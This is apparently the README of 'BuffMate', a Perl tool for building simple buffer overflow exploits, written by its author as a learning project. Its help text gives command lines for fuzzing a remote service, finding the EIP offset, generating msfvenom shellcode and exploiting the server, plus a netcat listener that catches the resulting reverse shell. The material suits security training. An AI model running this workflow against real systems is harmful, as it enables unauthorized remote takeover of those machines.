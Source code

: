 # BuffMate

Note: This tool is really just a random project, created as I learned more about buffer overflows. Buffmate currently only works as an all-in-one solution with certain buffer overflows, matching the following conditions:

* Overflow is triggered by an optional string/command, followed by a buffer of "A"s.
* 400+ bytes is available for shellcode after the EIP address is overwritten (the "C" part of the buffer).
* Testing for bad characters can be performed in the "C" part of the buffer.
* The application crashes predictably when the "C" buffer length is changed.

BuffMate is a Perl utility that assists in the process of creating simple buffer overflow exploits. The entire process from fuzzing to exploitation is streamlined into one tool. Only core Perl modules are utilized for mobility and speed.

Certain offensive dependencies are required, such as metasploit-framework and msfvenom. It is recommended that you run this tool on a Kali system which includes these tools.

## Help
```
BuffMate - Perl Buffer Overflow Tool | Steve Collmann - stevcoll@gmail.com

Options:
   -m, --mode            Program mode. See "Modes" below for details.
   -l, --local           Local client address and port (IPv4), colon delimited.
   -r, --remote          Remote server address and port (IPv4), colon delimited.
   -s, --string          String to send before buffer. Multiple strings supported. Optional.
   -o, --offset          Loose offset from fuzzing or exact offset from EIP byte match.
   -b, --bad             Bad character to exclude in payload. Multiple parameters supported.
   -j, --jump            Memory jump return address. Automatically converted to little endian.
   -i, --increment       Step increment for fuzzer. Default: 200 bytes.
   -v, --verbose         Show remote server responses to socket sends.

Examples:
   ./buffmate.pl -m 1 -r 10.0.0.1:80 -s "PWD "                     ## Fuzz remote server
   ./buffmate.pl -m 2 -r 10.0.0.1:80 -s "PWD " -o 140              ## Locate EIP offset
   ./buffmate.pl -m 3 -r 10.0.0.1:80 -s "PWD " -o 136              ## Verify EIP offset
   ./buffmate.pl -m 4 -r 10.0.0.1:80 -s "PWD " -o 136 -b \x15      ## Test and remove bad chars
   ./buffmate.pl -m 5 -r 10.0.0.1:80 -s "PWD " -o 136 -j 39D421E6  ## Test jump address
   ./buffmate.pl -m 6 -l 192.168.1.1:443 -b \x15 -b \x35           ## Generate shellcode
   ./buffmate.pl -m 7 -r 10.0.0.1:80 -s "PWD " -o 136 -j 39D421E6  ## Exploit server

Modes:
   * [1] Fuzzing  
     - Buffer can be sent with or without prepended strings (e.g. "AUTH ").
     - Multiple prepended strings can be sent (e.g. -s "USER " -s "PASS ").
     - Identify buffer size in bytes which causes an exception on service.
   * [2] EIP Match
     - Attach debugger to service and run tool with offset found in fuzzing mode.
     - Ensure prepended string option is used for all stages if required.
     - After service exception debugger should display unique EIP address.
     - Enter unique EIP address into tool and identify exact EIP offset.
   * [3] EIP Verify
     - Attach debugger to service and run tool with exact offset found in EIP match.
     - Verify EIP is overwritten with "B" or "\x42" characters.
     - Verify space for shellcode in "C" or "\x43" characters. (i.e. ~400 bytes).
   * [4] Char Test
     - Attach debugger to service and run tool with discovered offset.
     - Check debugger for evidence of bad characters corrupting the buffer.
     - Remove any bad characters with tool and rerun char test as appropriate.
   * [5] Jump Test
     - Utilize debugger to locate module with no memory protections.
     - Locate appropriate memory address to jump to in discovered module.
     - Ensure memory address contains no bad characters.
     - Attach debugger to service and set breakpoint at jump memory address.
     - Run tool with new jump address and bad char options.
     - Ensure debugger stops at breakpoint and execution redirects to "C" or "\x43".
   * [6] Generate Shellcode
     - Run tool with local (attacking) host and bad char options to generate shellcode.
     - Copy and paste enter $shellcode variable output into top of tool code.
   * [7] Exploit Server
     - Start service on local host with appropriate options (e.g. nc -vlnp 443).
     - Run tool with remote host, offset, jump address, and bad char options.
     - Reverse shell should appear on local host.
```

## Author
Steve Collmann, stevcoll@gmail.com
